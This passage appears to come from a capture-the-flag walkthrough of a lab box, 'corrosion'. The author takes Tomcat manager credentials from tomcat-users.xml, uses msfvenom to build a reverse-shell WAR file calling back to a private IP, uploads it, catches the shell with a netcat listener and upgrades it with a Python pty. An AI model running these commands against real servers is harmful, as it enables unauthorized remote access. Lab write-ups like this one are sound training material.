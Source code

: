 The most interesting file here is the tomcat-users.xml since that contains credentials for the tomcat manager app which will allow us to get a shell.

```bash
<role rolename="manager-gui"/>
<user username="manager" password="melehifokivai" roles="manager-gui"/>
```

We get the username and password for the tomcat manager app. We can now login and upload our shell.

We have the capability of uploading a WAR file which can be abused to run malicious applications using the tomcat manager. We can create a malicious WAR file using msfvenom to get us a reverse shell.

![2](https://github.com/user-attachments/assets/eed1581b-79d9-49c6-9b72-e3844306f174)


```bash
msfvenom -p java/shell_reverse_tcp lhost=192.168.56.103 lport=4242 -f war -o shell.war 
```

We can see that our shell has been uploaded

![3](https://github.com/user-attachments/assets/8efb8fa5-d5a1-4aa4-8518-65e464025b94)


Now all we need to do is visit that endpoint and our malicious application will run giving us a reverse shell. So let’s set up a listener and wait for a connection.

```bash
nc -lvnp 4242             
listening on [any] 4242 ...
connect to [192.168.56.103] from (UNKNOWN) [192.168.56.137] 47414
whoami
tomcat
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

There we go, we now have access to the system as the tomcat user. Now time for some Privilege Escalation. But before that I’ll quickly upgrade the shell to a more interactive one

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@corrosion:/var/spool/cron$ ^Z
zsh: suspended  nc -lvnp 4242
                                                                                                                                                                                                                                            
stty raw -echo; fg                                  
[1]  + continued  nc -lvnp 4242

tomcat@corrosion:/var/spool/cron$ 
tomcat@corrosion:/var/spool/cron$ export TERM=xterm
tomcat@corrosion:/var/spool/cron$ 
```

There we go now we have autocomplete and other features so we can navigate the system efficiently.

After some looking around I was able to access the randy user’s home, and get the user.txt for that user.
